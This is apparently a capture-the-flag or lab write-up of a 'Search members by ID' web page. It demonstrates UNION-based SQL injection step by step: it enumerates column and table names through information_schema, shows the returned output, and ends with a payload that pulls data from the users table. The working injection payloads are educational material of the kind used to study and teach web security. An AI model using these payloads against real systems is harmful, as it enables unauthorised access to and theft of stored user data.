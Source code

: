 

### Search members by ID

By entering an ID number, we can attempt to retrieve an initial table!

``
ID: 1 
First name: one
Surname : me
``

We can start by sending a SQL command:

``SELECT * FROM users``

``You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1``

We want to be able to use our own SELECT command and ignore the first one that gives an error. We can use the UNION method. The UNION keyword allows you to execute one or more additional SELECT queries and append the results to the original query.

We don't have the names of the columns, but thanks to ``information_schema``, which is default the database informations,  we can retrieve all the necessary data.

``1 UNION SELECT column_name, table_name FROM information_schema.columns``

```
ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: user_id
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: first_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: last_name
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: town
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: country
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: planet
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: Commentaire
Surname: users

ID: 1 UNION SELECT column_name, table_name FROM information_schema.columns
First name: countersign
Surname: users

```

Therefore, we can retrieve the data from the users table with the following command:

``1 UNION SELECT first_name, country FROM users``

